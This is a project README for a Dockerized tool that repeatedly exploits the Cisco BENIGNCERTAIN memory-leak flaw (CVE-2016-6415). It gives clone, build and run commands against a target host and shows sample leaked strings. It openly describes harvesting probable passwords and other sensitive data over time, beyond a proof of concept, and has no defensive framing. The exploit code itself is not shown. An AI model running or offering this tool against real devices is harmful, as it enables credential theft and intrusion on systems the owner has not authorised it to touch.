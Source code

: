 # CVE-2016-6415-BenignCertain-Monitor
Re-implementation of VirtueSecurity's benigncertain-monitor. Doesn't have all the same payload options as the original, but replaces the `bc-id` binary with a better proof of concept by Ross Bradley that can be expanded on if necessary.

## Credits:
- Original monitor written and maintained by VirtueSecurity at https://github.com/VirtueSecurity/benigncertain-monitor
- Proof of concept script used to replace the buggy "bc-id" binary is from Ross Bradley at https://github.com/ross-bradley/benign-certain

```
$ git clone https://github.com/3ndG4me/CVE-2016-6415-BenignCertain-Monitor.git
$ cd CVE-2016-6415-BenignCertain-Monitor
$ sudo docker build . -t benign-monitor
$ sudo docker run -it benign-monitor <host>
```
The service will continuously poll the vulnerable service, extract ascii strings from memory, store the strings in a local sqlite database, and show the most frequently observed strings:

```
Starting monitor against 10.0.6.1
        string  count
0         5$dx      3
1          0(0      3
2         $c{l      3
3       (0"t&j      3
4   R$dkd$hf7!      2
5    %d1N=8$i-      2
6        $c)P0      1
7         1NlD      1
8        1NlD'      1
9       $c)P(0      1
10     $c)P1@_      1
```

## Overview
This is a dockerized python script that continuously leaks memory of a target vulnerable to the NSA BENIGNCERTAIN Cisco exploit CVE-2016-6415. 

The script polls the vulnerable service over time to identify probable passwords and other potentially sensitive information. This can be used to harvest actionable data over a period of time rather than just a proof of concept exploit.

## TODO:
- [ ] Port exploit code to python3
- [ ] Expand arguments to passthru from the container to the exploit script for better option tweaking
- [ ] Optional: Expand payload options
